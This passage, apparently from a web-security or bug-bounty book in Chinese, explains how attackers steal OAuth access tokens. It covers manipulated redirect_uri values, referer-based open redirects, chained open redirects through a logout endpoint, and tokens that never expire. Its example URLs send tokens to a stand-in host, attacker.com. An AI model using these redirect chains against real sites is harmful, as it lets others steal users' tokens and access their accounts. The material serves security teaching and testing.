 攻击者可以向受害者发送一个精心构造的 URL，这将启动 OAuth 流程，然后在他们的服务器上运行一个监听器来收集泄露的令牌：

```
identity.com/oauth?
client_id=`CLIENT_ID`
&response_type=code
&state=`STATE`
&redirect_uri=https://example.com/callback?next=attacker.com
&scope=email
```

重定向 OAuth 流程的另一种方式是通过基于 referer 的开放重定向。在这种情况下，攻击者必须通过从他们的域名发起 OAuth 流程来设置 referer 头：

```
<a href="https://example.com/login_via_facebook">Click here to log in to example.com</a>
```

这将导致流程首先重定向到回调 URL：

```
https://example.com/callback?#access_token=xyz123
```

然后，它将通过 referer 重定向到攻击者的域名：

```
https://attacker.com#access_token=xyz123
```

即使攻击者无法在 OAuth 端点本身找到开放重定向，他们仍然可以通过找到一个*开放重定向链*来窃取令牌并将其带离站点。例如，假设 `redirect_uri` 参数仅允许进一步重定向到*example.com* 域名下的 URL。如果攻击者能在该域名内找到开放重定向，他们仍然可以通过重定向窃取 OAuth 令牌。假设在 *example.com* 的登出端点存在未修复的开放重定向：

```
https://example.com/logout?next=attacker.com
```

通过利用这个开放重定向，攻击者可以形成一条重定向链，最终将令牌带离站点，流程开始于以下内容：

```
redirect_uri=https://example.com/callback?next=example.com/logout?next=attacker.com
```

这个 `redirect_uri` 将首先导致流程重定向到回调 URL：

```
https://example.com/callback?next=example.com/logout?next=attacker.com#access_token=xyz123
```

然后重定向到容易受到开放重定向攻击的登出 URL：

```
https://example.com/logout?next=attacker.com#access_token=xyz123
```

然后它将重定向到攻击者的域名。攻击者可以通过他们的服务器日志收集访问令牌，并通过窃取的令牌访问用户的资源：

```
https://attacker.com#access_token=xyz123
```

除了通过开放重定向窃取访问令牌外，长期有效且不会过期的令牌也是一个主要的 OAuth 漏洞。有时候，令牌不会定期失效，攻击者在令牌被盗后很长时间仍然可以使用它们，并且即使密码重置后也保持有效。你可以通过在登出后和密码重置后使用相同的访问令牌来测试这些问题。
